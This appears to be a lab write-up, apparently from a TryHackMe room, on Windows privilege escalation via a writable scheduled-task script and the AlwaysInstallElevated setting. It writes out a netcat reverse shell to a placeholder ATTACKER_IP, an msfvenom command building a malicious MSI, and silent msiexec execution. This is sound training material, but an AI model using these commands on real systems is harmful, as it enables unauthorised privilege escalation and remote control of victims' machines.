 **Scheduled Tasks**

```
C:\> schtasks
```

```
C:\> schtasks /query /tn SynchronizeTime /fo list /v
```

Important Info 
```
HostName:                             THM-PC1
TaskName:                             \vulntask
Task To Run:                          C:\tasks\schtask.bat
Run As User:                          taskusr1
```

To check the file permissions on the executable

```
C:\> icacls c:\tasks\schtask.bat

full access (F) over the task's binary
modify permissions (M) on the service's executable
**(AD)** and **(WD)** privileges, allowing the user to create subdirectories and files, respectively.
```

Let's change the bat file to spawn a reverse shell:
```
C:\> echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat

Set Listener
nc -lvp 4444

Run Scheduler
C:\> schtasks /run /tn vulntask
```

**AlwaysInstallElevated**

**This method requires two registry values to be set**. You can query these from the command line using the commands below.

Command Prompt

```shell-session
C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

To be able to exploit this vulnerability, **both should be set**. Otherwise, exploitation will not be possible. If these are set, you can generate a malicious .msi file using `msfvenom`, as seen below:

```shell-session
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi
```

As this is a reverse shell, you should also run the Metasploit Handler module configured accordingly.

```shell-session
C:\> msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
```
